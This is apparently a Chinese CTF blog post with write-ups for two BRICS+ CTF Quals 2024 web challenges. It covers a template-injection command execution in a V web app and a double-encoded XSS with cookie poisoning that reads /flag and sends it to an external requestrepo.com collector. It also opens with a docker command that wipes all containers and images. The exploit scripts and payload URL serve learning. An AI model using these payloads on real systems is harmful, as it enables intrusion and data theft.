




+++
title = "BRICS+ CTF Quals 2024"
slug = "brics-ctf-quals-2024"
description = "刷"
date = "2025-05-06T18:49:08"
lastmod = "2025-05-06T18:49:08"
image = ""
license = ""
categories = ["复现"]
tags = ["xss"]
+++

## 说在前面

去年我记得是9月这个比赛被举办，题目质量还是很好的，当时爆零了(比赛特别多，不愿意花时间在难的比赛上)，5m当时做出了一个题，我说着要复现来着，竟然一直拖到了今天

```
docker stop $(docker ps -aq) && docker rm $(docker ps -aq) && docker rmi $(docker images -q)
```

## villa

利用V语言开发的程序，扔进VSCODE看看

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <title>King of the Villa</title>
        <meta charset="utf-8">
        <style>
            body {
                color: #223311;
                font-size: 3vh;
                font-weight: bolder;
                background: #009922;
            }
            h1 {
                font-size: 5vh;
                margin-left: 10vw;
            }
            span {
                color: #79573a;
                text-decoration: underline;
            }
            label, input, button {
                font-size: 4vh;
            }
        </style>
    </head>
    <body>
        <script>
function load() {
    return fetch('/villa', {
        method: 'GET',
        mode: 'no-cors',
    }).then(
        res => res.text()
    ).then(
        text => { 
            document.getElementById('villa').innerHTML = text;
            document.getElementById('villa').style.opacity = 1;
        }
    );
}

function update() {
    document.getElementById('villa').style.opacity = 0.5;

    return fetch('/villa', {
        method: 'POST',
        body: document.getElementById('owner').value,
        mode: 'no-cors',
    });
}

setInterval(load, 2000);
        </script>
        <div id="villa"></div>
        <label for="owner">your name: </label>
        <input type="text" placeholder="anonymous" id="owner">
        <button onclick="update()">send</button>
    </body>
</html>
```

```v
module main

import os
import vweb

struct App {
	vweb.Context
}

@['/'; get; post]
fn (mut app App) index() vweb.Result {
	return $vweb.html()
}

@['/villa'; get; post]
fn (mut app App) villa() vweb.Result {
	if app.req.method == .post {
		os.write_file('villa.html', $tmpl('template.html')) or { panic(err) }
	}

	return $vweb.html()
}

fn main() {
	app := &App{}
	params := vweb.RunParams{
		port: 8080,
		nr_workers: 1,
    }

	vweb.run_at(app, params) or { panic(err) }
}
```

`villa.html`和`template.html`都是一个房子没什么特殊的，就不放了，程序相当简单。唯一可以传参的地方就是`/villa`的`owner`，会被直接填充进html，进行动态渲染，模版注入，`@{1+1}`尝试成功



并且发现回显其实是在`/`的，这里发现如果有命令执行函数的话会直接卡死不执行，换行绕过

```python
import requests
import time

url="http://localhost:8080/"

while True:
    try:
        data = "\n. '); C.system('cat /f* > villa.html'.str); println(' {\n"
        r = requests.post(url+"villa", data)
        print(r.text)

        response = requests.get(url)
        print(response.content)

        if b'flag' in response.content:
            break
    except Exception as e:
        print(e)

    time.sleep(2)
```



## mirage

先修改一下Dockerfile避免内置Chrome发生错误

```dockerfile
FROM ubuntu:22.04

ENV DEBIAN_FRONTEND=noninteractive

RUN apt update \
    && apt install -yq gnupg2 curl sqlite3 socat xxd hashcash

# https://github.com/puppeteer/puppeteer/blob/main/docs/troubleshooting.md
RUN curl -fsSL https://dl-ssl.google.com/linux/linux_signing_key.pub | apt-key add - \
    && sh -c 'echo "deb [arch=amd64] http://dl.google.com/linux/chrome/deb/ stable main" >> /etc/apt/sources.list.d/google.list' \
    && apt update \
    && apt install -yq --no-install-recommends gconf-service libasound2 libatk1.0-0 libc6 libcairo2 libcups2 libdbus-1-3 libexpat1 libfontconfig1 libgbm1 libgcc1 libgconf-2-4 libgdk-pixbuf2.0-0 libglib2.0-0 libgtk-3-0 libnspr4 libpango-1.0-0 libpangocairo-1.0-0 libstdc++6 libx11-6 libx11-xcb1 libxcb1 libxcomposite1 libxcursor1 libxdamage1 libxext6 libxfixes3 libxi6 libxrandr2 libxrender1 libxss1 libxtst6 ca-certificates fonts-liberation libnss3 lsb-release xdg-utils \
    && rm -rf /var/lib/apt/lists/*

RUN curl -fsSL https://deb.nodesource.com/setup_22.x | bash - \
    && apt install -y nodejs

RUN mkdir -p /nonexistent /tmp/mirage /tmp/bot \
    && chown nobody:nogroup /nonexistent /tmp/mirage /tmp/bot

ENV PUPPETEER_SKIP_DOWNLOAD=true

USER nobody:nogroup

WORKDIR /tmp/bot

RUN npm install puppeteer@22.3.0 \
    && npx puppeteer browsers install chrome@136.0.7103.49

WORKDIR /

USER root

RUN apt install -yq dotnet-sdk-8.0

COPY bot/bot.js /tmp/bot/

COPY mirage /tmp/mirage

COPY entrypoint.sh /entrypoint.sh

RUN chmod +x /entrypoint.sh

RUN mkdir -p /nonexistent/.cache/puppeteer \
    && chown -R nobody:nogroup /nonexistent/.cache
USER nobody:nogroup

CMD /entrypoint.sh
ENV PUPPETEER_EXECUTABLE_PATH=/nonexistent/.cache/puppeteer/chrome/linux-136.0.7103.49/chrome-linux64/chrome
```

```js
const crypto = require("node:crypto");
const process = require('node:process');
const child_process = require('node:child_process');

const puppeteer = require("puppeteer");

const readline = require('readline').createInterface({
    input: process.stdin,
    output: process.stdout,
    terminal: false,
});
readline.ask = str => new Promise(resolve => readline.question(str, resolve));

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

const TIMEOUT = process.env.TIMEOUT || 300 * 1000;
const MIRAGE_URL = process.env.MIRAGE_URL || 'http://localhost:8989/';

const POW_BITS = process.env.POW_BITS || 28;

async function pow() {
    const nonce = crypto.randomBytes(8).toString('hex');

    console.log('[*] Please solve PoW:');
    console.log(`hashcash -q -mb${POW_BITS} ${nonce}`);

    const answer = await readline.ask('> ');

    const check = child_process.spawnSync(
        '/usr/bin/hashcash',
        ['-q', '-f', '/tmp/bot/hashcash.sdb', `-cdb${POW_BITS}`, '-r', nonce, answer],
    );
    const correct = (check.status === 0);

    if (!correct) {
        console.log('[-] Incorrect.');
        process.exit(0);
    }

    console.log('[+] Correct.');
}

async function visit(url) {
    const params = {
        browser: 'chrome',
        args: [
            '--no-sandbox',
            '--disable-gpu',
            '--disable-extensions',
            '--js-flags=--jitless',
        ],
        headless: true,
    };

    const browser = await puppeteer.launch(params);
    const context = await browser.createBrowserContext();

    const pid = browser.process().pid;

    const shutdown = async () => {
        await context.close();
        await browser.close();

        try {
            process.kill(pid, 'SIGKILL');
        } catch(_) { }

        process.exit(0);
    };

    const page1 = await context.newPage();
    await page1.goto(`${MIRAGE_URL}admin`);

    await sleep(1000);
    await page1.close();

    setTimeout(() => shutdown(), TIMEOUT);

    const page2 = await context.newPage();
    await page2.goto(url);
}

async function main() {
    if (POW_BITS > 0) {
        await pow();
    }

    console.log('[?] Please input URL:');
    const url = await readline.ask('> ');

    if (!url.startsWith(MIRAGE_URL)) {
        console.log('[-] Access denied.');
        process.exit(0);
    }

    console.log('[+] OK.');

    readline.close()
    process.stdin.end();
    process.stdout.end();

    await visit(url);

    await sleep(TIMEOUT);
}

main();
```

bot和往日的没什么不同

```c#
using System.Net;
using System.Text;

namespace Mirage {
    public class Context {
        private readonly HttpListenerRequest request;
        private readonly HttpListenerResponse response;

        public Context(HttpListenerContext context) {
            request = context.Request;
            response = context.Response;
        }

        public HttpListenerRequest Request => request;
        public HttpListenerResponse Response => response;

        public async Task Result(string content) {
            var bytes = Encoding.UTF8.GetBytes(content);

            await response.OutputStream.WriteAsync(bytes);
            await response.OutputStream.DisposeAsync();
        }

        public string? GetCookie(string name) {
            return Request.Cookies[name]?.Value;
        }

        public void SetCookie(string name, string value) {
            Response.AddHeader("Set-Cookie", $"{name}={value}; HttpOnly; SameSite=Lax");
        }

        public string? GetHeader(string name) {
            return Request.Headers[name];
        }

        public void SetHeader(string name, string value) {
            Response.AddHeader(name, value);
        }
    }
}
```

简单的一层api，设置HttpOnly

```c#
using Mirage;

var server = new Server()
    .AddPrefix("http://*:8989/")
    .AddMiddleware(async (ctx, next) => {
        if (ctx.GetCookie("session") != null) {
            ctx.SetHeader(
                "Cross-Origin-Resource-Policy", "same-origin"
            );
            ctx.SetHeader(
                "Content-Security-Policy", (
                    "sandbox allow-scripts allow-same-origin; " +
                    "base-uri 'none'; " +
                    "default-src 'none'; " +
                    "form-action 'none'; " +
                    "frame-ancestors 'none'; " +
                    "script-src 'unsafe-inline'; "
                )
            );
        }

        await next(ctx);
    })
    .DefineGet("/admin", async ctx => {
        ctx.SetCookie("session", "admin");

        await ctx.Result("good luck");
    })
    .DefineGet("/xss", async ctx => {
        var xss = ctx.Request.QueryString.Get("xss");

        await ctx.Result(xss ?? "what??");
    })
    .DefineGet("/flag", async ctx => {
        var flag = Environment.GetEnvironmentVariable("FLAG");

        await ctx.Result(flag ?? "flag{example_flag}");
    });

await server.Run();
```

`Cross-Origin-Resource-Policy: same-origin` - 限制资源只能被同源页面加载

`Content-Security-Policy` - 设置非常严格的内容安全策略，但允许内联脚本和同源操作



没做Cookie验证，访问就给，那我等会写个fetch你就知道错了

```c#
using System.Net;

namespace Mirage {
    using Handler = Func<Context, Task>;
    using Middleware = Func<Context, Func<Context, Task>, Task>;

    public class Server {
        public enum HttpMethod {
            Get,
            Post,
        };

        private readonly HttpListener listener;
        private readonly List<Middleware> middlewares;
        private readonly Dictionary<string, Dictionary<HttpMethod, Handler>> router;

        public Server() {
            listener = new HttpListener();
            middlewares = new List<Middleware>();
            router = new Dictionary<string, Dictionary<HttpMethod, Handler>>();
        }

        public Server AddPrefix(string prefix) {
            listener.Prefixes.Add(prefix);

            return this;
        }

        public Server AddMiddleware(Middleware middleware) {
            middlewares.Add(middleware);

            return this;
        }

        public Server DefineRoute(string path, HttpMethod method, Handler handler) {
            if (!router.ContainsKey(path)) {
                router.Add(path, new Dictionary<HttpMethod, Handler>());
            }

            router[path][method] = handler;

            return this;
        }

        public Server DefineGet(string path, Handler handler) {
            return DefineRoute(path, HttpMethod.Get, handler);
        }

        public Server DefinePost(string path, Handler handler) {
            return DefineRoute(path, HttpMethod.Post, handler);
        }

        public async Task Run(CancellationToken token) {
            listener.Start();

            while (!token.IsCancellationRequested) {
                var context = new Context(
                    await listener.GetContextAsync()
                );

                try {
                    await RouteRequest(context);
                } catch (Exception e) {
                    await context.Result(e.ToString());
                }
            }

            listener.Stop();
        }

        public Task Run() {
            return Run(CancellationToken.None);
        }

        private async Task RouteRequest(Context context) {
            var path = context.Request.Url?.AbsolutePath ?? "/";
            var method = ParseHttpMethod(context.Request.HttpMethod);

            if (!router.ContainsKey(path)) {
                throw new Exception("route not found");
            }

            var route = router[path];

            if (!route.ContainsKey(method)) {
                throw new Exception("method is not suported");
            }

            var handler = route[method];

            await CallMiddlewareChain(context, middlewares);

            await handler.Invoke(context);
        }

        private Task CallMiddlewareChain(Context context, IEnumerable<Middleware> middlewares) {
            var middleware = middlewares.FirstOrDefault();

            if (middleware == null) {
                return Task.CompletedTask;
            }

            return middleware.Invoke(
                context,
                ctx => CallMiddlewareChain(ctx, middlewares.Skip(1))
            );
        }

        private HttpMethod ParseHttpMethod(string method) {
            switch (method.ToLower()) {
                case "get":
                    return HttpMethod.Get;

                case "post":
                    return HttpMethod.Post;

                default:
                    throw new Exception("unknown method");
            }
        }
    }
}
```

正常的类似写了一个express，所以还是打XSS，利用二次编码进行绕过，污染Cookie之后让bot访问`/flag`获得flag

```python
#!/usr/bin/env python3

def escape(html: str) -> str:
    return ''.join('%' + hex(ord(x))[2:].zfill(2) for x in html)

url = 'http://localhost:8989'
report = 'https://ydpaegf3.requestrepo.com/'

step2 = f'''
<script>
    fetch('/flag')
        .then(x => x.text())
        .then(x => fetch('{report}?flag=' + encodeURIComponent(x)));
</script>
'''

step1 = f'''
<script>
    document.cookie = 'x="ss; Path=/xss';
    location.href = '/xss?xss={escape(step2)}';
</script>
'''

print(f'{url}/xss?xss={escape(step1)}')
```

```
http://localhost:8989/xss?xss=%0a%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%20%3d%20%27%78%3d%22%73%73%3b%20%50%61%74%68%3d%2f%78%73%73%27%3b%0a%20%20%20%20%6c%6f%63%61%74%69%6f%6e%2e%68%72%65%66%20%3d%20%27%2f%78%73%73%3f%78%73%73%3d%25%30%61%25%33%63%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%33%65%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%36%36%25%36%35%25%37%34%25%36%33%25%36%38%25%32%38%25%32%37%25%32%66%25%36%36%25%36%63%25%36%31%25%36%37%25%32%37%25%32%39%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%65%25%37%34%25%36%38%25%36%35%25%36%65%25%32%38%25%37%38%25%32%30%25%33%64%25%33%65%25%32%30%25%37%38%25%32%65%25%37%34%25%36%35%25%37%38%25%37%34%25%32%38%25%32%39%25%32%39%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%65%25%37%34%25%36%38%25%36%35%25%36%65%25%32%38%25%37%38%25%32%30%25%33%64%25%33%65%25%32%30%25%36%36%25%36%35%25%37%34%25%36%33%25%36%38%25%32%38%25%32%37%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%61%25%32%66%25%32%66%25%37%39%25%36%34%25%37%30%25%36%31%25%36%35%25%36%37%25%36%36%25%33%33%25%32%65%25%37%32%25%36%35%25%37%31%25%37%35%25%36%35%25%37%33%25%37%34%25%37%32%25%36%35%25%37%30%25%36%66%25%32%65%25%36%33%25%36%66%25%36%64%25%32%66%25%33%66%25%36%36%25%36%63%25%36%31%25%36%37%25%33%64%25%32%37%25%32%30%25%32%62%25%32%30%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35%25%35%35%25%35%32%25%34%39%25%34%33%25%36%66%25%36%64%25%37%30%25%36%66%25%36%65%25%36%35%25%36%65%25%37%34%25%32%38%25%37%38%25%32%39%25%32%39%25%32%39%25%33%62%25%30%61%25%33%63%25%32%66%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%33%65%25%30%61%27%3b%0a%3c%2f%73%63%72%69%70%74%3e%0a
```



终于收到了
